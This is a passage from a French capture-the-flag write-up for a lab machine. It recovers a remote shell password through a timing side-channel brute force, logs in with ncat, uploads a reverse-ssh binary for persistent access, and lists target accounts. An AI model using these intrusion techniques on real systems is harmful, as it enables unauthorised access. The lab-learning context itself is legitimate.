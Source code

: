 Je teste pour chaque position tous les caractères ascii affichables et je conserve celui qui a généré le moins de délai.

Je réitère ensuite l'opération pour le suivant. L'output ressemble à ceci :

```
R
R3
R3s
--- snip ---
R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG
R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0
Possibly found password R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d: Logged in successfully, type exit to close the shell
```

On a effectivement un shell avec ce mot de passe :

```bash
$ ncat 192.168.56.83 54311 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.83:54311.
#######################
# Secure Remote Shell #
#######################
Welcome, please log in
Password: R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d
Logged in successfully, type exit to close the shell
Shell$ id
uid=1001(level1) gid=1001(level1) groups=1001(level1)
Shell$ ls -alh
total 44K
drwxr-x--- 2 level1 level1 4.0K Jan  4  2015 .
drwxr-xr-x 7 root   root   4.0K Jan  3  2015 ..
-rw-r--r-- 1 level1 level1  220 Jan  3  2015 .bash_logout
-rw-r--r-- 1 level1 level1 3.5K Jan  3  2015 .bashrc
-rwsr-xr-x 1 level2 level1 8.9K Jan  4  2015 level2
-rw-r--r-- 1 level1 level1  145 Jan  4  2015 level2_readme.txt
-rw-r--r-- 1 level1 level1  675 Jan  3  2015 .profile
-rw-rw-r-- 1 level1 level1   66 Jan  3  2015 .selected_editor
-rw------- 1 level1 level1  662 Jan  3  2015 .viminfo
```

Malheureusement pas de mot de passe pour le SSH. De plus, placer une clé SSH dans le `authorized_keys` n'a pas d'effet.

Je peux toutefois uploader et exécuter `reverse-sshx86` qui me donne l'équivalent d'un serveur SSH sur le port 31337.

Le nombre de levels semble assez court. Reste à savoir si on doit passer par l'utilisateur `pandora`. On peut s'attendre aussi à ce qu'il y ait un setuid root à un moment. Soit 6 binaires à exploiter au maximum.

```
pandora:x:1000:1000:pandora,,,:/home/pandora:/bin/bash
level1:x:1001:1001:,,,:/home/level1:/bin/bash
level2:x:1002:1002:,,,:/home/level2:/bin/bash
level3:x:1003:1003:,,,:/home/level3:/bin/bash
level4:x:1004:1004:,,,:/home/level4:/bin/bash
```
